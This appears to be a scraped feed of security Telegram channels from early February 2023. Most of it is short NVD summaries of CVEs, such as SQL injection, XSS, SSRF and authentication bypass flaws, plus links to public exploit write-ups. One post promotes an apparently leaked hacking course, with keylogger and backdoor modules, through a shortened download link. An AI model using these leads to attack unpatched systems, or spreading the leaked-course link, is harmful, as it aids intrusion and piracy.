</blockquote>

---

# cibsecurity
`2023-02-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46965

<blockquote>
‼ CVE-2022-46965 ‼

PrestaShop module, totadministrativemandate before v1.7.1 was discovered to contain a SQL injection vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-02`

<blockquote>
Adobe Acrobat Reader - resetForm - CAgg UaF - RCE Exploit - CVE-2023-21608
https://www.reddit.com/r/netsec/comments/10rp1oi/adobe_acrobat_reader_resetform_cagg_uaf_rce/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/10rp1oi/adobe_acrobat_reader_resetform_cagg_uaf_rce/">
https://www.reddit.com/r/netsec/comments/10rp1oi/adobe_acrobat_reader_resetform_cagg_uaf_rce/
</a>
<blockquote>
Posted in the netsec community.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40268

<blockquote>
‼ CVE-2022-40268 ‼

Improper Restriction of Rendered UI Layers or Frames vulnerability in Mitsubishi Electric Corporation GOT2000 Series GT27 model versions 01.14.000 to 01.47.000, Mitsubishi Electric Corporation GOT2000 Series GT25 model versions 01.14.000 to 01.47.000 and Mitsubishi Electric Corporation GT SoftGOT2000 versions 1.265B to 1.285X allows a remote unauthenticated attacker to lead legitimate users to perform unintended operations through clickjacking.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-33323

<blockquote>
‼ CVE-2022-33323 ‼

Active Debug Code vulnerability in robot controller of Mitsubishi Electric Corporation industrial robot MELFA SD/SQ Series and MELFA F-Series allows a remote unauthenticated attacker to gain unauthorized access by authentication bypass through an unauthorized telnet login. As for the affected model names, controller types and firmware versions, see the Mitsubishi Electric's advisory which is listed in [References] section.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40269

<blockquote>
‼ CVE-2022-40269 ‼

Authentication Bypass by Spoofing vulnerability in Mitsubishi Electric Corporation GOT2000 Series GT27 model versions 01.14.000 to 01.47.000, Mitsubishi Electric Corporation GOT2000 Series GT25 model versions 01.14.000 to 01.47.000 and Mitsubishi Electric Corporation GT SoftGOT2000 versions 1.265B to 1.285X allows a remote unauthenticated attacker to disclose sensitive information from users' browsers or spoof legitimate users by abusing inappropriate HTML attributes.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25013

<blockquote>
‼ CVE-2023-25013 ‼

An issue was discovered in the femanager extension before 5.5.3, 6.x before 6.3.4, and 7.x before 7.1.0 for TYPO3. Missing access checks in the InvitationController allow an unauthenticated user to set the password of all frontend users.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25014

<blockquote>
‼ CVE-2023-25014 ‼

An issue was discovered in the femanager extension before 5.5.3, 6.x before 6.3.4, and 7.x before 7.1.0 for TYPO3. Missing access checks in the InvitationController allow an unauthenticated user to delete all frontend users.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# Leakers_squad
`2023-02-02`

* https://t.me/leakers_Squad/1841

<blockquote>
💻The Complete Ethical Hacking Course💻

Hacking Lab Setup
Dark Web
Network Pentesting
Gathering Information From Networks
Wireless Attacks
System Pentesting
Social Engineering
Social Media Security
Beef
External Network Attacks
Fake Game Website Attacks Introduction
Hacker Methodology
Website Reconnaissance &amp; Pentesting
Cross Site Scripting
SQL Injection
Website Pentesting Tools
Python For Ethical Hacking Setup
MAC Changer
Network Scanner
Man In The Middle
Packet Listener
Keylogger
Backdoor
Packaging &amp; Malicious Files
Closing &amp; Ethical Hacker's Handbook

🔗Download Link : https://bit.ly/CompleteEthicalHacking

(Click on first website&gt; get the course)

Contact for posting these content in your channel @Mr_Neophyte

🟡Share with Your Friends and Team🔵

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45783

<blockquote>
‼ CVE-2022-45783 ‼

An issue was discovered in dotCMS core 4.x through 22.10.2. An authenticated directory traversal vulnerability in the dotCMS API can lead to Remote Code Execution.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47872

<blockquote>
‼ CVE-2022-47872 ‼

maccms10 2021.1000.2000 is vulnerable to Server-side request forgery (SSRF).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-37033

<blockquote>
‼ CVE-2022-37033 ‼

In dotCMS 5.x-22.06, TempFileAPI allows a user to create a temporary file based on a passed in URL, while attempting to block any SSRF access to local IP addresses or private subnets. In resolving this URL, the TempFileAPI follows any 302 redirects that the remote URL returns. Because there is no re-validation of the redirect URL, the TempFileAPI can be used to return data from those local/private hosts that should not be accessible remotely.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23075

<blockquote>
‼ CVE-2023-23075 ‼

Cross Site Scripting (XSS) vulnerability in Zoho Asset Explorer 6.9 via the credential name when creating a new Assets Workstation.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23073

<blockquote>
‼ CVE-2023-23073 ‼

Cross site scripting (XSS) vulnerability in Zoho ManageEngine ServiceDesk Plus 14 via PO in the purchase component.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46934

<blockquote>
‼ CVE-2022-46934 ‼

kkFileView v4.1.0 was discovered to contain a cross-site scripting (XSS) vulnerability via the url parameter at /controller/OnlinePreviewController.java.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23077

<blockquote>
‼ CVE-2023-23077 ‼

Cross site scripting (XSS) vulnerability in Zoho ManageEngine ServiceDesk Plus 13 via the comment field when adding a new status comment.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23074

<blockquote>
‼ CVE-2023-23074 ‼

Cross site scripting (XSS) vulnerability in Zoho ManageEngine ServiceDesk Plus 14 via embedding videos in the language component.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23078

<blockquote>
‼ CVE-2023-23078 ‼

Cross site scripting (XSS) vulnerability in Zoho ManageEngine ServiceDesk Plus 14 via the comment field when changing the credentials in the Assets.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-01`

<blockquote>
eCommerce Marketplace Platform CMS 1.7 SQL Injection
https://packetstormsecurity.com/files/170827/empc17-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/170827/empc17-sql.txt">
https://packetstormsecurity.com/files/170827/empc17-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-01`

<blockquote>
Online Eyewear Shop 1.0 SQL Injection
https://packetstormsecurity.com/files/170825/onlineeyewearshop10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/170825/onlineeyewearshop10-sql.txt">
https://packetstormsecurity.com/files/170825/onlineeyewearshop10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-01`

<blockquote>
eCommerce Marketplace Platform CMS 1.7 SQL Injection
http://exploit.kitploit.com/2023/02/ecommerce-marketplace-platform-cms-17_1.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/ecommerce-marketplace-platform-cms-17_1.html">
https://exploit.kitploit.com/2023/02/ecommerce-marketplace-platform-cms-17_1.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-01`

<blockquote>
Online Eyewear Shop 1.0 SQL Injection
http://exploit.kitploit.com/2023/02/online-eyewear-shop-10-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/online-eyewear-shop-10-sql-injection.html">
https://exploit.kitploit.com/2023/02/online-eyewear-shop-10-sql-injection.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24997

<blockquote>
‼ CVE-2023-24997 ‼

Deserialization of Untrusted Data vulnerability in Apache Software Foundation Apache InLong.This issue affects Apache InLong: from 1.1.0 through 1.5.0. Users are advised to upgrade to Apache InLong's latest version or cherry-pick https://github.com/apache/inlong/pull/7223 https://github.com/apache/inlong/pull/7223 to solve it.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48093

<blockquote>
‼ CVE-2022-48093 ‼

Seacms v12.7 was discovered to contain a remote code execution (RCE) vulnerability via the ip parameter at admin_ ip.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46679

<blockquote>
‼ CVE-2022-46679 ‼

Dell PowerScale OneFS 8.2.x, 9.0.0.x - 9.4.0.x, contain an insufficient resource pool vulnerability. A remote unauthenticated attacker could potentially exploit this vulnerability, leading to denial of service.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-32482

<blockquote>
‼ CVE-2022-32482 ‼

Dell BIOS contains an improper input validation vulnerability. A local authenticated malicious user with admin privileges may potentially exploit this vulnerability in order to modify a UEFI variable.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45102

<blockquote>
‼ CVE-2022-45102 ‼

Dell EMC Data Protection Central, versions 19.1 through 19.7, contains a Host Header Injection vulnerability. A remote unauthenticated attacker may potentially exploit this vulnerability by injecting arbitrary \u2018Host\u2019 header values to poison a web cache or trigger redirections.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0608

<blockquote>
‼ CVE-2023-0608 ‼

Cross-site Scripting (XSS) - DOM in GitHub repository microweber/microweber prior to 1.3.2.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45100

<blockquote>
‼ CVE-2022-45100 ‼

Dell PowerScale OneFS, versions 8.2.x-9.3.x, contains an Improper Certificate Validation vulnerability. An remote unauthenticated attacker could potentially exploit this vulnerability, leading to a full compromise of the system.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23630

<blockquote>
‼ CVE-2023-23630 ‼

Eta is an embedded JS templating engine that works inside Node, Deno, and the browser. XSS attack - anyone using the Express API is impacted. The problem has been resolved. Users should upgrade to version 2.0.0. As a workaround, don't pass user supplied things directly to `res.render`.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0607

<blockquote>
‼ CVE-2023-0607 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository projectsend/projectsend prior to r1606.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47770

<blockquote>
‼ CVE-2022-47770 ‼

Serenissima Informatica Fast Checkin version v1.0 is vulnerable to Unauthenticated SQL Injection.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

